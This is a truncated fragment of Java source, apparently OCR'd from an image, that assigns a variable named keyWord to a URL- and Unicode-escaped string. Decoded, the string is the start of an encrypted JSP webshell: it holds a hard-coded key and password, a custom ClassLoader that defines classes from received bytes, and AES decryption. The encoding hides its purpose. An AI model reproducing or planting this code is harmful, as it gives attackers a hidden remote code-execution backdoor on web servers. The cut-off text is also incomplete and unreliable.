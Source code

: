 String keyWord =
URLDecoder.decode("%3c%25%21%5c%75%30%30%32%30%5c%75%30%30%35%33%5c%75%30%30%37%34%5c%75%30%30%37%32%5c%75%30%30%36%39%5c%75%30%30%36%65%5c%75%30%30%36%37%5c%75%30%30%32%30%5c%75%30%30%37%38%5c%75%30%30%36%33%5c%75%30%30%33%64%5c%75%30%30%32%32%5c%75%30%30%33%33%5c%75%30%30%36%33%5c%75%30%30%33%36%5c%75%30%30%36%35%5c%75%30%30%33%30%5c%75%30%30%36%32%5c%75%30%30%33%38%5c%75%30%30%36%31%5c%75%30%30%33%39%5c%75%30%30%36%33%5c%75%30%30%33%31%5c%75%30%30%33%35%5c%75%30%30%33%32%5c%75%30%30%33%32%5c%75%30%30%33%34%5c%75%30%30%36%31%5c%75%30%30%32%32%5c%75%30%30%33%62%5c%75%30%30%32%30%5c%75%30%30%35%33%5c%75%30%30%37%34%5c%75%30%30%37%32%5c%75%30%30%36%39%5c%75%30%30%36%65%5c%75%30%30%36%37%5c%75%30%30%32%30%5c%75%30%30%37%30%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%33%64%5c%75%30%30%32%32%5c%75%30%30%37%30%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%32%32%5c%75%30%30%33%62%5c%75%30%30%32%30%5c%75%30%30%35%33%5c%75%30%30%37%34%5c%75%30%30%37%32%5c%75%30%30%36%39%5c%75%30%30%36%65%5c%75%30%30%36%37%5c%75%30%30%32%30%5c%75%30%30%36%64%5c%75%30%30%36%34%5c%75%30%30%33%35%5c%75%30%30%33%64%5c%75%30%30%36%64%5c%75%30%30%36%34%5c%75%30%30%33%35%5c%75%30%30%32%38%5c%75%30%30%37%30%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%32%62%5c%75%30%30%37%38%5c%75%30%30%36%33%5c%75%30%30%32%39%5c%75%30%30%33%62%5c%75%30%30%32%30%5c%75%30%30%36%33%5c%75%30%30%36%63%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%32%30%5c%75%30%30%35%38%5c%75%30%30%32%30%5c%75%30%30%36%35%5c%75%30%30%37%38%5c%75%30%30%37%34%5c%75%30%30%36%35%5c%75%30%30%36%65%5c%75%30%30%36%34%5c%75%30%30%37%33%5c%75%30%30%32%30%5c%75%30%30%34%33%5c%75%30%30%36%63%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%34%63%5c%75%30%30%36%66%5c%75%30%30%36%31%5c%75%30%30%36%34%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%62%5c%75%30%30%37%30%5c%75%30%30%37%35%5c%75%30%30%36%32%5c%75%30%30%36%63%5c%75%30%30%36%39%5c%75%30%30%36%33%5c%75%30%30%32%30%5c%75%30%30%35%38%5c%75%30%30%32%38%5c%75%30%30%34%33%5c%75%30%30%36%63%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%34%63%5c%75%30%30%36%66%5c%75%30%30%36%31%5c%75%30%30%36%34%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%32%30%5c%75%30%30%37%61%5c%75%30%30%32%39%5c%75%30%30%37%62%5c%75%30%30%37%33%5c%75%30%30%37%35%5c%75%30%30%37%30%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%32%38%5c%75%30%30%37%61%5c%75%30%30%32%39%5c%75%30%30%33%62%5c%75%30%30%37%64%5c%75%30%30%37%30%5c%75%30%30%37%35%5c%75%30%30%36%32%5c%75%30%30%36%63%5c%75%30%30%36%39%5c%75%30%30%36%33%5c%75%30%30%32%30%5c%75%30%30%34%33%5c%75%30%30%36%63%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%32%30%5c%75%30%30%35%31%5c%75%30%30%32%38%5c%75%30%30%36%32%5c%75%30%30%37%39%5c%75%30%30%37%34%5c%75%30%30%36%35%5c%75%30%30%35%62%5c%75%30%30%35%64%5c%75%30%30%32%30%5c%75%30%30%36%33%5c%75%30%30%36%32%5c%75%30%30%32%39%5c%75%30%30%37%62%5c%75%30%30%37%32%5c%75%30%30%36%35%5c%75%30%30%37%34%5c%75%30%30%37%35%5c%75%30%30%37%32%5c%75%30%30%36%65%5c%75%30%30%32%30%5c%75%30%30%37%33%5c%75%30%30%37%35%5c%75%30%30%37%30%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%32%65%5c%75%30%30%36%34%5c%75%30%30%36%35%5c%75%30%30%36%36%5c%75%30%30%36%39%5c%75%30%30%36%65%5c%75%30%30%36%35%5c%75%30%30%34%33%5c%75%30%30%36%63%5c%75%30%30%36%31%5c%75%30%30%37%33%5c%75%30%30%37%33%5c%75%30%30%32%38%5c%75%30%30%36%33%5c%75%30%30%36%32%5c%75%30%30%32%63%5c%75%30%30%32%30%5c%75%30%30%33%30%5c%75%30%30%32%63%5c%75%30%30%32%30%5c%75%30%30%36%33%5c%75%30%30%36%32%5c%75%30%30%32%65%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%36%65%5c%75%30%30%36%37%5c%75%30%30%37%34%5c%75%30%30%36%38%5c%75%30%30%32%39%5c%75%30%30%33%62%5c%75%30%30%37%64%5c%75%30%30%32%30%5c%75%30%30%37%64%5c%75%30%30%37%30%5c%75%30%30%37%35%5c%75%30%30%36%32%5c%75%30%30%36%63%5c%75%30%30%36%39%5c%75%30%30%36%33%5c%75%30%30%32%30%5c%75%30%30%36%32%5c%75%30%30%37%39%5c%75%30%30%37%34%5c%75%30%30%36%35%5c%75%30%30%35%62%5c%75%30%30%35%64%5c%75%30%30%32%30%5c%75%30%30%37%38%5c%75%30%30%32%38%5c%75%30%30%36%32%5c%75%30%30%37%39%5c%75%30%30%37%34%5c%75%30%30%36%35%5c%75%30%30%35%62%5c%75%30%30%35%64%5c%75%30%30%32%30%5c%75%30%30%37%33%5c%75%30%30%32%63%5c%75%30%30%36%32%5c%75%30%30%36%66%5c%75%30%30%36%66%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%36%31%5c%75%30%30%36%65%5c%75%30%30%32%30%5c%75%30%30%36%64%5c%75%30%30%32%39%5c%75%30%30%37%62%5c%75%30%30%32%30%5c%75%30%30%37%34%5c%75%30%30%37%32%5c%75%30%30%37%39%5c%75%30%30%37%62%5c%75%30%30%36%61%5c%75%30%30%36%31%5c%75%30%30%37%36%5c%75%30%30%36%31%5c%75%30%30%37%38%5c%75%30%30%32%65%5c%75%30%30%36%33%5c%75%30%30%37%32%5c%75%30%30%37%39%5c%75%30%30%37%30%5c%75%30%30%37%34%5c%75%30%30%36%66%5c%75%30%30%32%65%5c%75%30%30%34%33%5c%75%30%30%36%39%5c%75%30%30%37%30%5c%75%30%30%36%38%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%32%30%5c%75%30%30%36%33%5c%75%30%30%33%64%5c%75%30%30%36%61%5c%75%30%30%36%31%5c%75%30%30%37%36%5c%75%30%30%36%31%5c%75%30%30%37%38%5c%75%30%30%32%65%5c%75%30%30%36%33%5c%75%30%30%37%32%5c%75%30%30%37%39%5c%75%30%30%37%30%5c%75%30%30%37%34%5c%75%30%30%36%66%5c%75%30%30%32%65%5c%75%30%30%34%33%5c%75%30%30%36%39%5c%75%30%30%37%30%5c%75%30%30%36%38%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%32%65%5c%75%30%30%36%37%5c%75%30%30%36%35%5c%75%30%30%37%34%5c%75%30%30%34%39%5c%75%30%30%36%65%5c%75%30%30%37%33%5c%75%30%30%37%34%5c%75%30%30%36%31%5c%75%30%30%36%65%5c%75%30%30%36%33%5c%75%30%30%36%35%5c%75%30%30%32%38%5c%75%30%30%32%32%5c%75%30%30%34%31%5c%75%30%30%34%35%5c%75%30%30%35%33%5c%75%30%30%32%32%5c%75%30%30%32%39%5c%75%30%30%33%62%5c%75%30%30%36%33%5c%75%30%30%32%65%5c%75%30%30%36%39%5c%75%30%30%36%65%5c%75%30%30%36%39%5c%75%30%30%37%34%5c%75%30%30%32%38%5c%75%30%30%36%64%5c%75%30%30%33%66%5c%75%30%30%33%31%5c%75%30%30%33%61%5c%75%30%30%33%32%5c%75%30%30%32%63%5c%75%30%30%36%65%5c%75%30%30%36%35%5c%75%30%30%37%37%5c%